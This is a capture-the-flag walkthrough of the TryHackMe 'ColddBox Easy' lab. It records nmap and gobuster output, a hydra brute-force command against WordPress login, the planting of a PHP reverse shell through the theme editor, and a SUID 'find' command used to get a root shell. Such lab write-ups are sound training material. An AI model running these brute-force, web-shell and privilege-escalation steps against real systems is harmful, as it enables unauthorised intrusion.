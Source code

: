 ```yaml
---

title: Walkthrough - Colddbox - Easy
published: true
---
```


Security, Box, PrivEsc, Wordpress. An easy level machine with multiple ways to escalate privileges.

[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

* * *

## Notes

- nmap scans

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster initial

```shell
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.210.65/wp-content/]
/license.txt          (Status: 200) [Size: 19930]                                    
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.210.65/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.210.65/wp-admin/]   
/hidden               (Status: 301) [Size: 313] [--> http://10.10.210.65/hidden/]     
/server-status        (Status: 403) [Size: 277]        
```

- ``/hidden/`` gives us some credentials. C0ldd, hugo, philip.
- ``wpscan --url http://10.10.210.65 -e vp --api-token``
- ``wpxploit`` - ``./exploit.py http://10.10.210.65/ 5 15`` with C0ldd and 0 wordlist we get access.
- ``hydra -l C0ldd -P /usr/share/seclists/Passwords/rockyou.txt 10.10.210.65 http-post-form -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+in:The password you entered'``
- ``[80][http-post-form] host: 10.10.210.65   login: C0ldd   password: 9876543210``

* * * 

## What is the user flag?

- login to wp-admin with the credentials and use the appearance editor to edit the main index template - index.php with php monkey reverse shell. 

![0xskar](/assets/c0ld01.png)

- ``find / -perm -u=s -type f 2>/dev/null``
- ``/usr/bin/find`` has suid set
- ``find . -exec /bin/sh -p \; -quit`` to gain root.

* * * 

## What is the root flag?

- ``cat /root/root.txt``

* * * 


